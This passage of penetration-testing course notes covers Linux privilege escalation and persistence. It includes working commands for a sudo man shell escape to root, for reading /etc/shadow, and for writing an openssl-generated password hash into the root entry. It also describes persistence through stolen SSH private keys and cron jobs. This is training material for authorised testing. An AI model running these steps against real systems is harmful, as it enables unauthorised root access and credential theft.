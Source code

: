 The man entry depicts that the man command can be run using sudo without providing any password. Run it and launch /bin/bash from it.

```bash
sudo man ls
!/bin/bash
```

After this, escalated to root user is successful.



if file /etc/shadow is world writable, we can read its contents.

```bash
ls -l /etc/shadow
cat /etc/shadow
```

If root password isn't set. We can adding a known password in shadow file, one can escalate to root. Use openssl to generate a password entry.&#x20;

```bash
openssl passwd -1 -salt abc password #setting new psw
```

Copy the generate entry and add it to root record in /etc/shadow Command:

```bash
vim /etc/shadow #copy psw and save it.
su #insert psw
```

### Windows [Persistence](https://attack.mitre.org/tactics/TA0003/)​ <a href="#windows-persistence" id="windows-persistence"></a>

🗒️ [**Persistence**](https://attack.mitre.org/tactics/TA0003/) _consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access._ - MITRE ATT\&CK

> ❗ **Persistence techniques and methods usually require administrative access and must follow the rules of engagement agree with the customer.**

Persistence Techniques - MITRE ATT\&CK

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-e1c96da6aca06c8dfa53800abbbb690af27ac2e6%2Fimage-20230429130516537.png?alt=media" alt=""><figcaption></figcaption></figure>

> 🔬 Check the [Windows Persistence Labs](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/5-post-exploit/win-persistence)​

### Linux Persistence <a href="#linux-persistence" id="linux-persistence"></a>

Linux Server **`SSH`** service is typically enabled and an attacker can take advantage of it.

* If password login is disabled and _**key-based authentication**_ is enabled, t_he attacker can copy a user's `SSH` private key and use it for future access._

Linux **`Cron`** is a service that repeatedly runs **Cron jobs** that can be used for command execution at a fixed interval and ensure persistent access to the target system.
